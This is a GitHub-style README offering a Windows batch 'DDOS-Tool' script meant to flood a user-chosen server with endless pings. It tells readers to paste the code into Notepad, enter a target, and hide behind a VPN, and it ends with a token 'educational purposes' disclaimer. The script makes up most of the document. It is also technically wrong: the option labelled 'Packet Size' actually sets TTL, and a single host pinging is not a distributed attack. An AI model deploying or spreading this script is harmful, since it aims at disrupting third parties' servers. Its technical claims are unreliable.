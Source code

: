# DDOS-Tool
Anonymous DDOS-Tool





# About
  
 A script to Attack http(s) servers                                                
 
make sure u have a vpn installed                

how to install a vpn here: https://youtu.be/te8KE71ndso



# Screenshot
![Unbenannt](https://user-images.githubusercontent.com/97392345/153496914-2f9daae4-6c52-42c6-83b3-5df5f23ee946.PNG)


# Install
 1) Copy the folllowing code to youre Notepad:
 
@echo off

mode 67,16

title DDOS Attack by MR Jack

color 0a

cls

echo.

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo DDOS With Batchfile

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo.


set /p x=Server-Target:
echo.

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

ping %x%

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

@ping.exe 127.0.0.1 -n 5 -w 1000 > nul

goto Next 

:Next

echo.

echo.

echo.

set /p m=ip Host:

echo.

set /p n=Packet Size:

echo.

:DDOS

color 0c

echo Attacking Server %m%

ping %m% -i %n% -t >nul

goto DDOS

2) when u are in the notepad dont forget to remove the Spaces of the code otherwise it wont work

3) enter the target server, the ip and how many packets u want to send to the Server


Enjoy


# Disclaimer  
im not responsible for any Damage caused with this Tool. use it only for educational purposes only.  
